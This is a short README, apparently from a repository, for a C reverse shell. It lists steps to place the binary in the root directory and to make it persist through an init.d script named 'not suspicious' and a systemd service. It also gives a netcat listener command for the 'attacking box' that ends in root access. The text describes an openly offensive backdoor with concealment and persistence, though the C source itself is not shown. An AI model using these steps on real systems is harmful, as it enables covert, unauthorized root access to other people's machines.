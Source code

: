 # reverse-shell
## DO NOT RUN THIS ON YOUR OWN COMPUTER UNLESS YOU WANT TO BE PWNED
A reverse shell written in c

## Installation and activation
* First, download this in the / directory, compile a binary, then mv a.out /
* Second, create a .sh file in /etc/init.d/ and name it something not suspicious
* Then, in /etc/systemd/system create a .service file (example included)
$systemctl enable foo.service

## On the attacking box
$nc -nvlp 4444
* Wait for connection to pop
* Have root

